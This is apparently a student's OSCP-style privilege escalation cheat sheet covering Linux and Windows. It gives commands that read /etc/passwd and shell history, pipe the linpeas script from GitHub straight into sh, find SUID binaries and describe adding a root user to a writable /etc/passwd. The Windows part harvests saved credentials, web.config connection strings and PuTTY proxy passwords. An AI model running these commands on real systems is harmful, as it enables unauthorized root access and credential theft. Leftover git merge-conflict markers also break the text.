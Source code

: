 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```


To get a nice wordlist which will help you in bruteforcing for other user accounts you can cut /etc/passwd file to reduce the noise 

```cat /etc/passwd | cut -d ":" -f 1```


# linux

## Automated tools

## linpeas
```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```
```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

## linenum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh


# Tactics

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

<<<<<<< HEAD:oscp/privescScripts/README.md
## SUID and GUID files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group.
Finding suid binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

find - Initiates the "find" command

/ - Searches the whole file system

-perm - searches for files with specific permissions

-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

-type f - Only search for files

2>/dev/null - Suppresses errors


## Exploiting a writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

==================

# Windows

Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

Windows Users

- Administrative user
- Standard User

## Harvesting passwords from usual spots
The easiest way to gain access to another user is to gather credentials from a compromised machine.

## Powershell history

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```cmd
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```cmd
runas /savecred /user:admin cmd.exe
```


## IIS configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms.Here is a quick way to find database connection strings on the file:

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```


## Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve proxy info: 
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## Sheduled Tasks

You can check sheduled tasks with the help of command 
```cmd
schtasks
```











